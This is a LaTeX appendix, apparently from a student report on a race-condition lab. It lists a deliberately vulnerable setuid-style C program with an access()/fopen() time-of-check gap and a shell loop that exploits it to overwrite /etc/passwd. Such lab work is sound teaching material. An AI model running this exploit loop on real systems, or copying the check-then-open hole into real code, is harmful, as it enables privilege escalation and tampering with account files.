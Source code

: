 \documentclass[a4paper,12pt]{article}
\begin{document}
\newpage
\section{Appendix}
\subsection{Vulnerable Program: \texttt{vulp.c}}
\label{Appsec:3.2}
\begin{verbatim}
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char* fn = "/tmp/XYZ";
    //char buffer[300]; //For /etc/shadow
    char buffer[60]; //For /etc/passwd
    FILE *fp;
    //originaleuid = geteuid(); //For task 3

    //seteuid(getuid); //For task 3
    /* Get user input */
    //scanf("%270s", buffer); //For /etc/shadow
    scanf("%50s", buffer); //For /etc/passwd

    if(!access(fn, W_OK)){
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
    //seteuid(originaleuid); //For task 3
}
\end{verbatim}
\subsection{Bash script}
*The bash script, when created via Terminal usually has permission 664. The permission must be changed to 164, 364 or 764 for it to be executable.
\begin{verbatim}
#!/bin/sh

old=`ls -l /etc/passwd`
new=`ls -l /etc/passwd`

while [ "$old" = "$new" ]
do
new=`ls -l /etc/passwd`
/tmp/vulp < /tmp/TXTFILE
done
echo "STOP... The passwd file has been changed"
\end{verbatim}
\newpage
\end{document}
